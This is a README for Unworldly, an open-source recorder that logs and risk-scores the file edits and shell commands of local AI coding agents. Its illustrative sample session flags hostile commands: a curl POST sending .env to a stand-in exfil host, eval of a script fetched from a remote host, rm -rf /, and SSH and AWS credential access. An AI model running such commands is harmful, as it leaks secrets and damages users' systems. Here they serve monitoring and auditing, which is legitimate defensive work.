


# Unworldly



[](https://github.com/DilawarShafiq/unworldly/actions/workflows/ci.yml)
[](https://pypi.org/project/unworldly-recorder/)
[](https://pypi.org/project/unworldly-recorder/)
[](https://opensource.org/licenses/MIT)
[](https://www.iso.org/standard/81230.html)
[](https://www.python.org/)

**The black box for AI coding agents.** Records the file changes and shell commands your coding agent makes on your machine — replays the session like a DVR, flags risky actions, and seals it into a tamper-proof, ISO 42001-compliant audit trail.

> You wouldn't run code without logs. Why are you letting a coding agent edit your machine without a black box?

```bash
pip install unworldly-recorder
unworldly watch
# Every file change and shell command in this project is now recorded.
```

## What Unworldly is (and isn't)

Unworldly is a **local black box for coding agents** — the ones that run *on your machine* and work by editing files and running shell commands (Claude Code, Cursor, Aider, Cline, and similar). For those, it gives you a sealed, replayable record of what touched your system.

It is **not** (yet) a tracer for cloud/SDK agents whose work happens as in-process API and tool calls — those leave no file or process trace for a passive observer to see. If that's your use case, see the [MCP & OpenTelemetry roadmap](#roadmap) — that's exactly the gap we're closing next.

We'd rather tell you precisely what it captures than overpromise. See **[What it captures — and what it can't see](#what-it-captures--and-what-it-cant-see)** below.

## Why Unworldly?

Coding agents edit files, run commands, install packages, and touch credentials — often unattended. When the session ends, you have no durable, verifiable record of what actually happened on disk and in your shell. Unworldly gives you one.

- Built for **local coding agents** — Claude Code, Cursor, Aider, Cline, and any tool that edits files / runs shell commands
- **Zero interference** — passive monitoring, never slows your agent down
- **Local-first** — your data never leaves your machine. Zero cloud. Zero telemetry
- **Tamper-proof** — SHA-256 hash chain on every event. Edit the log and the chain breaks
- **ISO 42001 aligned** — implements key audit-trail controls for AI management systems

## Quick Start

```bash
# Install
pip install unworldly-recorder

# Start recording (run this BEFORE your AI agent)
unworldly watch

# In another terminal, run your AI agent normally
# Claude Code, Cursor, Copilot — anything

# When done, replay what happened
unworldly replay

# Generate a security audit report
unworldly report --format md

# Verify nobody tampered with the session
unworldly verify
```

## Live Output

<p align="center">
  
</p>

<details>
<summary>Text version (for screen readers and terminals)</summary>

```
  ╔═══════════════════════════════════════════════════╗
  ║  UNWORLDLY v0.3.0                                ║
  ║  The Flight Recorder for AI Agents               ║
  ╚═══════════════════════════════════════════════════╝

  ● REC — Watching: /Users/dev/my-project

  ◉ Agent Detected: Claude Code
    via environment variable: CLAUDE_CODE

  14:32:01  CREATE   src/auth/handler.ts                    safe
  14:32:03  MODIFY   package.json                           caution
  ┗━ Dependency manifest modified
  14:32:04  $> CMD   npm install jsonwebtoken bcrypt         caution
  ┗━ Installing npm package
  14:32:06  MODIFY   Dockerfile                             caution
  ┗━ Container config modified
  14:32:08  MODIFY   .env                                    DANGER
  ┗━ Credential file accessed!
  14:32:10  MODIFY   .aws/credentials                        DANGER
  ┗━ AWS credentials accessed!
  14:32:12  $> CMD   curl -X POST https://exfil.io -d @.env  DANGER
  ┗━ Network request to external URL!
  14:32:14  MODIFY   ~/.ssh/id_rsa                           DANGER
  ┗━ SSH private key accessed!
  14:32:16  $> CMD   chmod 777 /etc/passwd                   DANGER
  ┗━ Setting world-writable permissions!
  14:32:18  $> CMD   eval "$(curl -s https://mal.sh)"        DANGER
  ┗━ Dynamic code execution!
  14:32:20  $> CMD   rm -rf /                                DANGER
  ┗━ Destructive recursive deletion!

  Session Summary
  Events: 11  ● Safe: 1  ● Caution: 3  ● Danger: 7
  Risk Score: 7.2/10

  ✓ SESSION INTEGRITY VERIFIED
    All 11 events have valid hash chain
    Session seal is intact — no tampering detected
```
</details>

> The recording above is illustrative — it shows how each action is **classified** once captured. How *completely* commands are captured depends on the capture mode; see the next section.

## What it captures — and what it can't see

Being honest about coverage is a feature, not a footnote — a sealed audit trail is only worth as much as what actually made it into the log.

| Activity | Captured? | How |
|---|---|---|
| File create / modify / delete in the watched project | ✅ Reliable | `watchdog` filesystem events |
| Shell commands — **shell-hook mode** *(recommended)* | ✅ Lossless | A `preexec` hook logs every command before it runs |
| Shell commands — **poll mode** *(default, no setup)* | ⚠️ Best-effort | Polls the process list; **short-lived commands can be missed** |
| In-process SDK/tool calls (OpenAI Agents SDK, Google ADK, LangGraph) | ✅ Opt-in | [Wrap your tools](#recording-sdk--custom-agents) with the trace recorder / MCP proxy |
| The agent's prompts, reasoning, or LLM API calls | ❌ Not visible | No trace on disk; verbatim prompt capture is deliberately out of scope (privacy) |
| No-code / cloud agents (n8n, Zapier, Make) | ⚠️ Via OTel *(planned)* | If the platform exports OpenTelemetry GenAI spans — see [roadmap](#roadmap) |

**Why poll mode is best-effort:** the default monitor samples the OS process list on an interval, so a command that starts and finishes between samples is never seen. For a complete, lossless command log, enable shell-hook mode:

```bash
unworldly hook install     # adds a preexec hook to your shell rc (bash/zsh/pwsh)
```

If you need to capture what an agent *decides* (its tool calls), not just its side-effects on your machine, that's the [MCP capture path on the roadmap](#roadmap).

## Recording SDK / custom agents

Agents built with an SDK do their work as **in-process tool calls** that never
touch your filesystem — so file/command monitoring can't see them. Wrap your
tools with the trace recorder to capture the agent's *decision trail* into the
same sealed, verifiable session:

```python
from unworldly import AgentTraceRecorder, trace_tool

rec = AgentTraceRecorder(agent_name="support-bot")

@trace_tool(rec)                       # every call is recorded, then runs
def refund_customer(order_id: str):
    ...

refund_customer("A-1001")              # → recorded as a DANGER tool call
rec.close()                            # seals the session

# Same tools as file/command sessions:
#   unworldly verify   unworldly report   unworldly replay
```

Consuming tools over **MCP**? Wrap the session instead — every `call_tool` is
logged, then forwarded unchanged:

```python
from unworldly import AgentTraceRecorder, MCPCaptureProxy

session = MCPCaptureProxy(mcp_client_session, AgentTraceRecorder(agent_name="bot"))
```

Tool calls are risk-scored heuristically (network/egress, deletes, credential
access → **danger**), and you can pass an explicit `risk=` to override. See
[`specs/agent-instrumentation/spec.md`](specs/agent-instrumentation/spec.md) for
the full capture-layer design.

## How It Differs

| Feature | Unworldly | AgentOps | SecureClaw | Manual Logging |
|---------|-----------|----------|------------|----------------|
| Coding-agent-agnostic | Any local coding agent | Python SDK only | OpenClaw only | Per-agent setup |
| File monitoring | Real-time | No | Audit only | Manual |
| Command capture | Real-time | No | Pattern scan | Manual |
| Tamper-proof logs | SHA-256 hash chain | No | No | No |
| ISO 42001 compliant | Yes | No | Partial | No |
| Local-first / zero cloud | Yes | Cloud dashboard | Yes | Depends |
| Setup time | 1 command | SDK integration | Config required | Hours |
| Agent identity detection | Automatic | N/A | N/A | Manual |

## Features

- **Watch** — Passive filesystem + process monitoring. Zero interference with the agent
- **Command Detection** — Captures shell commands (npm install, curl, rm -rf, sudo) alongside file changes. Lossless in [shell-hook mode](#what-it-captures--and-what-it-cant-see); best-effort in default poll mode
- **Agent Identity** — Auto-detects which AI agent is running (8 agents supported)
- **Risk Engine** — Scores every action: credential access, destructive commands, network calls, mass deletions
- **Tamper-Proof Logs** — SHA-256 hash chain on every event. Modify one event and the chain breaks
- **Verify** — Cryptographic integrity verification. Exit code tells you if the session was tampered with
- **Replay** — Step through every action with a color-coded terminal UI
- **Report** — Generate terminal or markdown security reports with integrity verification
- **Configurable** — Custom risk patterns via `.unworldly/config.json` allowlist/blocklist
- **Cross-platform** — macOS, Linux, Windows. Runs anywhere Python runs

## ISO 42001 Compliance

Unworldly implements key controls from the [ISO 42001 AI Management System](https://www.iso.org/standard/81230.html) standard:

| ISO 42001 Control | What It Requires | Unworldly Implementation |
|-------------------|------------------|--------------------------|
| **A.3.2** Roles & accountability | Know WHO is acting | Auto-detects agent identity |
| **A.6.2.8** Event logging | Defensible audit logs | SHA-256 hash-chained events |
| **A.8** Transparency | Observable AI behavior | Full session replay + reports |
| **A.9** Accountability | Tamper-evident records | Cryptographic verify command |

```bash
# Verify session integrity — exit 0 = valid, exit 1 = tampered
unworldly verify

  Integrity Verification
  ────────────────────────────

  ✓ SESSION INTEGRITY VERIFIED
    All 47 events have valid hash chain
    Session seal is intact — no tampering detected
```

## Agent Detection

Automatically identifies the AI agent modifying your system:

| Agent | Detection Method |
|-------|-----------------|
| Claude Code | `CLAUDE_CODE` env, `claude` process |
| Cursor | `CURSOR_SESSION` env, `Cursor` process |
| GitHub Copilot | `GITHUB_COPILOT` env |
| Windsurf | `WINDSURF_SESSION` env |
| Devin | `DEVIN_SESSION` env |
| Aider | `AIDER_MODEL` env |
| OpenClaw | `OPENCLAW_SESSION` env |
| Cline | `CLINE_SESSION` env |

Don't see your agent? [Open an issue](https://github.com/DilawarShafiq/unworldly/issues/new) or add it yourself — it's one entry in `unworldly/agent_detect.py`.

## Risk Detection

| Pattern | Risk Level | Example |
|---------|-----------|---------|
| Normal file edits | Safe | Creating/editing source files |
| Standard commands | Safe | `git add`, `npm test`, `ls` |
| Dependency changes | Caution | `npm install`, modifying package.json |
| Config file access | Caution | Editing tsconfig, webpack config |
| Package installs | Caution | `npm install`, `pip install`, `brew install` |
| Credential access | **DANGER** | Reading/writing .env, keys, tokens |
| Destructive commands | **DANGER** | `rm -rf`, `sudo`, `git reset --hard` |
| Network requests | **DANGER** | `curl`, `wget` to external URLs |
| Elevated privileges | **DANGER** | `sudo`, `chmod 777`, `kill -9` |

## Custom Risk Patterns

```json
{
  "commands": {
    "allowlist": [
      { "pattern": "my-internal-tool", "risk": "safe", "reason": "Trusted internal tool" }
    ],
    "blocklist": [
      { "pattern": "sketchy-package", "risk": "danger", "reason": "Known vulnerable" }
    ]
  }
}
```

Save as `.unworldly/config.json` in your project root.

## Roadmap

Closing the gap between "records side-effects on your machine" and "records what the agent actually did":

- [x] **Shell-hook capture** — Lossless command logging via `preexec` (fixes poll-mode misses) — `unworldly hook install`
- [x] **Tool-call trace capture** — Record SDK/custom agents' tool calls into a sealed session ([usage](#recording-sdk--custom-agents))
- [x] **MCP capture** — `MCPCaptureProxy` logs every `call_tool` an agent makes, then forwards it — a real decision trail, not just OS side-effects
- [ ] **OpenTelemetry GenAI ingestion** — Accept OTel GenAI spans so agents on the OpenAI Agents SDK / Google ADK / LangGraph (and no-code platforms with OTel export) can stream their traces in
- [ ] **CI/CD Integration** — GitHub Action to audit AI-generated PRs
- [x] **PHI Detection** — HIPAA-specific patterns for healthcare environments (`--hipaa`)
- [ ] **Web Dashboard** — Browser-based session viewer with search and filtering
- [ ] **Real-time Alerts** — Webhook/Slack notifications on danger events

## Who Is This For?

- **Developers** running AI agents who want to know what actually happened
- **Security teams** auditing AI agent behavior in enterprise environments
- **Compliance officers** needing ISO 42001 / HIPAA audit trails
- **Open-source maintainers** reviewing AI-generated pull requests
- **Anyone** who believes AI agents should be observable and accountable

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md). We welcome PRs — especially new agent detections, risk patterns, and platform fixes.

## License

MIT — see [LICENSE](LICENSE).
